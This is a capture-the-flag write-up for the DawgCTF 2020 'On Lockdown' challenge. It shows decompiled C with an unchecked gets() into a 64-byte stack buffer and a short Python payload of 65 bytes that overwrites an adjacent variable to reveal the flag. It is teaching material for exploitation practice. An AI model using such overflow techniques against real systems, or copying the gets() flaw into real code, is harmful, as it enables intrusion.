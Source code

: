 
## On Lockdown
### Description

> Better than locked up I guess
>
> nc [ctf.umbccd.io](http://ctf.umbccd.io/) 4500
>
> Author: trashcanna


### Attachment

[onlockdown](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DawgCTF2020/pwn/onlockdown/onlockdown)

### Analysis

In function `lockdown`, flag will be printed  while `local_10` is not `0`:

```c
void lockdown(void){
  char local_50 [64];
  int local_10;
  
  local_10 = 0;
  puts("I made this really cool flag but Governor Hogan put it on lockdown");
  puts("Can you convince him to give it to you?");
  gets(local_50);
  if (local_10 == 0) {
    puts("I am no longer asking. Give me the flag!");
  }
  else {
    flag_me();
  }
  return;
}
```

and here is a buffer overflow obviously: 

```c
gets(local_50);
```

> layout of satck:   local_50[64]   |   local_10

 `local_10` will be overwrite with the values after 64 bytes of our input string.

### Solution

Overwrite `local_10` with nonzero values by buffer overflow:

```python
offset = 65
payload = 'A'*offset
sla('Can you convince him to give it to you?\n',payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/DawgCTF2020/pwn/onlockdown) 


